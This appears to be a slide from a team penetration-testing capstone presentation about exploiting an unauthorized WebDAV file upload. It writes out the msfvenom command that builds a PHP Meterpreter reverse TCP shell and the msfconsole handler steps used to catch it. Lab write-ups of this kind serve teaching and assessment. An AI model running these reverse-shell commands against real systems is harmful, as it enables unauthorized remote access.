

# Exploitation: Unauthorized File Upload
01

02

03

Tools & Processes
Having access to the shared WebDAV folder our team utilized MSFvenom in order to create a custom php-based reverse tcp shell in order to set up a meterpreter session through msfconsole. After activating the payload our team successfully established a bash shell session within the Capstone machine thus gaining access.

Achievements
Our team was able to successfully upload a payload to the WebDAV folder. This allowed for the successful establishment of a reverse_tcp connection. This execution of the payload allowed for system-wide access and file upload/download.

msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw -o shell.php

1. msfconsole
2. multi/handler
3. set payload php/meterpreter/reverse_tcp
4. set LHOST 192.168.1.90
5. set LPORT 4444
6. exploit